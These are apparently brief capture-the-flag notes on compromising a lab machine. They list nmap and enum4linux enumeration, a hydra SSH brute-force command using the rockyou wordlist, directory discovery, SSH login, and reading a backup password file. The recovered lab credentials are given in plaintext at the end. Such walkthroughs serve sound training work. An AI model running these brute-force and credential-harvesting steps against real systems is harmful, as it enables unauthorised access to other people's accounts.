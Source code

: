 #### Machine IP: 10.10.135.87
<br>
Enum:

`nmap -sV -sC -oA nmap/bpt 10.10.135.87`
<br>
<br>

Ports:
    <br><br>`hydra -l jan -P ~/Documents/wordlists/rockyou.txt ssh://10.10.135.87`<br><br>
    Ssh 22 -> Atacking[ brute forcing with hydra - User: jan:armando ]<br>
    Http 80
    139
    445

Dirbuster enum:<br>
    `http://10.10.135.87/development/`<br><br>


```
Loggin with ssh: ssh jan@ipmachine -p 22 : armando
Cd ..
Ls
Cd kay
vi pass.bak
```
<br>
<br>
For creds use:<br>
`enum4linux -v 10.10.135.87`<br><br>

User creds:<br>
    jan:armando
    key:heresareallystrongpasswordthatfollowsthepasswordpolicy$$



